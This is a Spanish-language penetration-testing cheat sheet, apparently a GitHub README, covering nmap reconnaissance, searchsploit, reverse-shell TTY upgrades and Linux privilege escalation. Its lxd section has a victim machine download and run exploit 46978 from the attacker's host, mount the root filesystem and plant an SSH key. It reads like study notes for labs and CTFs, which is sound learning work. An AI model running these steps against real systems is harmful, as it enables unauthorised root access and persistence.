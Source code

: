 # La guía del explorador de seguridad en sistemas de información

En todos los siguientes comandos se asume que se ejecutan desde el usuario root con permisos de superusuario. Para acceder a él:

```bash
sudo su
```

Además nos referiremos a la ip de la maquina víctima de la manera `ipV` y a la de nuestra máquina como `ipH`.

# Fase de reconocimiento
En primer lugar debemos comprobar que exixte conexión entre nuestra máquina y la máquina atacada.

```bash
ping -c 1 <ipV>
```

En este punto ya podremos detectar de si la máquina víctima se trata de una máquina Linux (Si el TTL es menor y próximo a **64**) o Windows (Si el TTL es menor y próximo a **128**).

También es posible utilizar la utilidad `wichSystem.py`, la cual se puede incluir en el $PATH, que reportará por consola el tipo sistema de manera más limpia.

```bash
wichSystem.py <ipV>
```

## Nmap

Procedemos a la fase de reconocimiento de puertos para saber que servicios tiene expuestos la máquina y poder detectar posibles agujeros de seguridad.

```bash
nmap -p- --open -T5 -v -n <ipV>
```

+ -p-: Indica todo el rango de puertos (0-65535).
+ --open: Para que solo nos reporte aquellos que tienen un estado abierto.
+ -T: Con el parámetro -T controlamos el temporizado y rendimiento de el escaneo, puede tomar valores de 0 a 5, donde 5 es más rápido y también más ruidoso.
+ -v: Para que nos vaya reportando información por consola con el progreso del escaneo.
+ -n: Para que no aplique resolución DNS.

Si el escaneo resulta tedioso, podemos emplear el siguiente, aunque será muy ruidoso:

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn <ipV> -oG allPorts
```

+ -sS: Se trata de un TCP SYN port scan.
+ --min-rate: Enviará paquetes no más lento que lo que se  le indique.
+ -vvv: Más verboso.
+ -Pn: Evitamos host discovery mediante el protocolo ARP.
+ -oG: Exportamos la captura a un archivo en formato grepeable. (Tambien se podría exportar a otros formatos -oA: All formats. -oX: Modo XML -oN: Modo nmap).

Ahora aplicamos la función extractPorts a la capruta de nmap de manera que se nos mostrará por pantalla de una forma mucho más limpia, además de copiarnos los puertos al portapapeles. Nota: Es necesario tener instalado `xclip` además de `batcat`.

```bash
extractPorts allPorts
```

A continuación le lanzaremos un serie de scripts básicos de numeración para tratar de detectar la versión y servicio que corren para los puertos obtenidos y lo exportará en formato Nmap al archivo targeted.

```bash
nmap -sC -sV -p<p1>,<p2>,<p3> <ipV> -oN targeted
```

Si uno de estos servicios se trata de http, podemos lanzar el script whatweb para detectar el gestor de contenidos que está utilizando el servidor web.

```bash
whatweb http://<ipV>:<p>
```

Para descubrir posibles rutas dentro de la aplicación web podemos utilizar:
```bash
nmap --script http-enum -p<p> <ipV> -oN webScan
```

# SploitDB
Para buscar un sploit:

```bash
searchsploit <Nombre del servicio>
```

Para moverlo a tu directorio actual:

```bash
searchsploit -m <Número identificativo>
```
Por último quedaría entrar en el, introducir los valores requeridos y ejecutarlo.

# Tratamiento de la TTY
Al conseguir conectarnos a a una máquina a través de una reverse shell, esta no es del todo funcional, ya que algunos atajos como podrían ser Ctrl + C no los podríamos utilizar. Para solucionarlo:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
```
Terminal type? 
```bash
xterm
```

```bash
export TERM=xterm
export SHELL=bash
```

Por último debemos cambiar el número de filas y columnas. Previamente en una terminal de nuestro equipo ejecutamos:

```bash
stty size
```

Y copìamos el número de filas y columnas. Ahora en la terminal de la víctima podemos introducirlas mediante:

```bash
stty rows <nº filas> columns <nº columnas>
```

# Escalado de privilegios

Podemos ver en que grupos se encuentra el usuario mediante:
```bash
id
```

También si es posible ejecutar algún comando como superusuario
```bash
sudo -l
```

Buscamos privilegios suid en el directorio raíz /
```bash
find \-perm -4000 2>/dev/null
```

También podemos ver si nos encontramos dentro de un contenedor o no 
```bash
hostname -I
```


## Si pertenencia a docker o lxd:

Debemos averiguar si estamos en una máquina de 32 o 64 bits:
```bash
uname -a
```

Ahora en nuestra máquina de atacante debemos obtener el sploit y un fichero .tar.gz de alpine.

```bash
searchsploit lxd
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine [-a i686]
```
Este ultimo parámetro solo si nos encontramos ante una máquina de 32 bits.

```bash
searchsploit -m 46978
chmod +x 46978.sh
dos2unix 46978.sh
```

En la máquina atacante:
```bash
python3 -m http.server 80
```
Y en la máquina víctima:
```bash
wget http://<ipH>/alpine....tar.gz
wget http://<ipH>/46978.sh
chmod +x 46978.sh

./46978.sh -f alpine....tar.gz
```

Si el comando da un error como que requiere privilegios de root, debemos entrar al fichero:
```bash
vim 46978.sh
```
Eliminar la linea `lxc image import $filename --alias alpine && lxd init --auto` y volver a ejecutar el script.

```bash
./46978.sh -f alpine....tar.gz
```

```bash
cd /mnt/root/
```
Y este sería el directorio root de la maquina víctima. Aquí se podría añadir una id_rsa para ssh.
